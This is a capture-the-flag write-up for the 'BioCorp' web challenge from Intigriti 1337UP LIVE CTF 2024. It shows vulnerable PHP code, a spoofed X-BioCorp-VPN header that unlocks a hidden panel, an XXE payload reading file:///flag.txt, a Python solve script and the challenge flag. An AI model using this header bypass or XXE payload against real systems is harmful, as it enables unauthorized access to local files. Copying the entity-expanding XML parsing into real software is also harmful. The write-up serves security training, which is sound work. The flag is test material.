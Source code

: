 ```yaml
---
name: BioCorp (2024)
event: Intigriti 1337UP LIVE CTF 2024
category: Web
description: Writeup for BioCorp (Web) - 1337UP LIVE CTF (2024) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# BioCorp

## Challenge Description

> BioCorp contacted us with some concerns about the security of their network. Specifically, they want to make sure they've decoupled any dangerous functionality from the public facing website. Could you give it a quick review?

## Solution

Players will find a basic website, without much functionality.

![](./images/0.PNG)

![](./images/1.PNG)

The challenge includes source code, so let's check it. One thing that stands out immediately is a hidden control panel, only accessible when using a VPN-related header and IP.

{% code overflow="wrap" %}
```php
$ip_address = $_SERVER['HTTP_X_BIOCORP_VPN'] ?? $_SERVER['REMOTE_ADDR'];
if ($ip_address === '80.187.61.102') {
    echo '<li><a href="panel.php">Control Panel</a></li>';
}
```
{% endcode %}

We can use the match and replace function in burp to insert the header in all of our requests, or we could use a curl command.

![](./images/2.PNG)

Now we can access the panel.

![](./images/3.PNG)

So, what does the panel do? It displays the XML data from the nuclear equipment. However, it also accepts data via a POST request.

{% code overflow="wrap" %}
```php
if ($_SERVER['REQUEST_METHOD'] === 'POST' && strpos($_SERVER['CONTENT_TYPE'], 'application/xml') !== false) {
    $xml_data = file_get_contents('php://input');
    $doc = new DOMDocument();
    if (!$doc->loadXML($xml_data, LIBXML_NOENT)) {
        echo "<h1>Invalid XML</h1>";
        exit;
    }
} else {
    $xml_data = file_get_contents('data/reactor_data.xml');
    $doc = new DOMDocument();
    $doc->loadXML($xml_data, LIBXML_NOENT);
}

$temperature = $doc->getElementsByTagName('temperature')->item(0)->nodeValue ?? 'Unknown';
$pressure = $doc->getElementsByTagName('pressure')->item(0)->nodeValue ?? 'Unknown';
$control_rods = $doc->getElementsByTagName('control_rods')->item(0)->nodeValue ?? 'Unknown';
```
{% endcode %}

Classic [XXE](https://portswigger.net/web-security/xxe) vulnerability, we can send something like this to receive the flag.

{% code overflow="wrap" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE reactor [
<!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<reactor>
    <status>
        <temperature>&xxe;</temperature>
        <pressure>2000</pressure>
        <control_rods>Lowered</control_rods>
    </status>
</reactor>
```
{% endcode %}

Alternatively, automated the whole process into a solve script.

### solve.py

{% code overflow="wrap" %}
```python
import requests

# Target URL and headers
url = "https://biocorp.ctf.intigriti.io/panel.php"
headers = {
    "X-BioCorp-VPN": "80.187.61.102",
    "Content-Type": "application/xml"
}

# XML payload with XXE injection
data = """<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE reactor [
<!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<reactor>
    <status>
        <temperature>&xxe;</temperature>
        <pressure>2000</pressure>
        <control_rods>Lowered</control_rods>
    </status>
</reactor>
"""

# Send the request
response = requests.post(url, headers=headers, data=data)

# Check the response
if response.status_code == 200:
    print("Response received:")
    print(response.text)
else:
    print(f"Request failed with status code {response.status_code}")
```
{% endcode %}

Flag: `INTIGRITI{c4r3ful_w17h_7h053_c0n7r0l5_0r_7h3r3_w1ll_b3_4_m3l7d0wn}`
